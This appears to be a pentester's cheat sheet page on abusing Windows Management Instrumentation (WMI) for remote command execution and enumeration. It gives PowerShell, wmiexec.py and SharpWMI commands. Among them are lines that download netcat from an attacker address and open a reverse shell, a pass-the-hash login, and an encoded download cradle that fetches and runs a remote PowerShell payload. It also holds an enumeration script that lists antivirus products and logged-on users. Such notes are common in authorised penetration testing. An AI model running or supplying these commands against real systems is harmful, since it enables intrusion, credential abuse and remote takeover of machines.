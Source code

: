 # WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)
* [https://hideandsec.sh/books/cheatsheets-82c/page/wmi](https://hideandsec.sh/books/cheatsheets-82c/page/wmi)




## PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```



### WMI Enumeration

- [https://0xinfection.github.io/posts/wmi-basics-part-1/](https://0xinfection.github.io/posts/wmi-basics-part-1/)
- [https://0xinfection.github.io/posts/wmi-classes-methods-part-2/](https://0xinfection.github.io/posts/wmi-classes-methods-part-2/)
- [https://0xinfection.github.io/posts/wmi-registry-part-3/](https://0xinfection.github.io/posts/wmi-registry-part-3/)
- [https://0xinfection.github.io/posts/wmi-recon-enum/](https://0xinfection.github.io/posts/wmi-recon-enum/)

{% code title="Invoke-LocalWMIEnum.ps1" %}
```powershell
Get-WmiObject -Class Win32_ComputerSystem | select BootupState,UserName,TotalPhysicalMemory,SystemType,SystemFamily,Domain,DNSHostName,OEMStringArray | ft -AutoSize
Get-WmiObject -Class Win32_OperatingSystem | fl *
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct | select PSComputerName,DisplayName,PathToSignedProductExe,PathToSignedReportingExe,ProductState,Timestamp | ft -AutoSize
Get-WmiObject Win32_Service | select Name,State,StartName,PathName | ? {$_.State -like "Running"} | findstr /vi "C:\Windows" | ft -AutoSize
Get-WmiObject -Class Win32_LoggedOnUser | select Antecedent,Dependent,PSComputerName | ft -AutoSize
Get-WmiObject -Class Win32_LogonSession | select AuthenticationPackage,LogonID,StartTime,Scope | ft -AutoSize
Get-WmiObject -Class Win32_QuickFixEngineering | select PSComputerName,Description,HotFixID,InstalledBy,InstalledOn | ft -AutoSize
Get-WmiObject -Class Win32_Share | select Type,Name,AllowMaximum,Description,Scope | ft -AutoSize
Get-WmiObject -Class Win32_IP4RouteTable | select PSComputerName,Caption,Mask,Metric1,Protocol | ft -AutoSize
Get-WmiObject -Class Win32_UserAccount | ft -AutoSize
Get-WmiObject -Class Win32_Group | ft -AutoSize
```
{% endcode %}




## wmiexec.py

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@192.168.1.11
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@192.168.1.11
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```

When loading the cradle from a semi-interactive shell, you can combine with `Invoke-WmiMethod` to spawn a new PowerShell process:

```bash
wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 "powershell -enc $(echo -n 'Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc '`echo -n 'IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/rev.ps1")' | iconv -t UTF-16LE | base64 -w0`'")' | iconv -t UTF-16LE | base64 -w0)"
```




## SharpWMI

- [https://github.com/GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)

```
PS > .\SharpWMI.exe action=exec [username=MEGACORP\snovvcrash] [passw0rd=Passw0rd!] computername=PC01 command="powershell -enc <BASE64_CMD>"
```
